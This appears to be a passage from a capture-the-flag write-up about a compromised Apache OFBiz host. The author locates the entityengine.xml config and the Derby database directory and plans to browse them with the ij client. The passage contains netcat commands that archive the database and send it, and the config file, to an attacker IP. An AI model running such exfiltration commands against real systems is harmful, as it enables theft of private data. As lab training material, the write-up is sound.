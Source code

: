 ```
find ./ -iname 'entityengine.xml'

./framework/entity/config/entityengine.xml
```

Download the file

```bash
receive file: nc -l -p 12344 > entityengine.xml
send file: nc 10.10.16.28 12344 < entityengine.xml 
```

It seems confusing, there are a lot of information which seems to be misleading. There are templates of auth requirements for all 
kind of dbs. This seems to be a default template file and does not seem to be that useful.

Searching on internet for some additional information, I came across ofbiz documentation, which talks about a db called `derby`.
You can connect whatver type of db to ofbiz but the prefered one seems to be `derby`, created by the Apache Foundations itself.

I don't have the minimal idea what this db is, and how I can access it.

Searching for keyword `derby` I found the following:

```
find ./ -iname 'derby'

./runtime/data/derby
```

```bash
tar czf /tmp/derby.tar.gz derby
receive file: nc -l -p 12344 > derby.tar.gz
send file: nc 10.10.16.28 12344 < derby.tar.gz
```

the directory contains a lot of files and inside internal directories there is a `README_DO_NOT_TOUCH_FILES.txt` which says

```
# *************************************************************************
# ***              DO NOT TOUCH FILES IN THIS DIRECTORY!                ***
# *** FILES IN THIS DIRECTORY AND SUBDIRECTORIES CONSTITUTE A DERBY     ***
# *** DATABASE, WHICH INCLUDES THE DATA (USER AND SYSTEM) AND THE       ***
# *** FILES NECESSARY FOR DATABASE RECOVERY.                            ***
# *** EDITING, ADDING, OR DELETING ANY OF THESE FILES MAY CAUSE DATA    ***
# *** CORRUPTION AND LEAVE THE DATABASE IN A NON-RECOVERABLE STATE.     ***
# *************************************************************************
```

this seems pretty interesting. This means that the entire content under this `derby` directory is the database itself, but how
we can navigate it?

Searching again on internet I came across Apache Foundations documentations which talked about a command line client for navigating
`derby` databases. It is called `ij` and we need to download it as binary. 
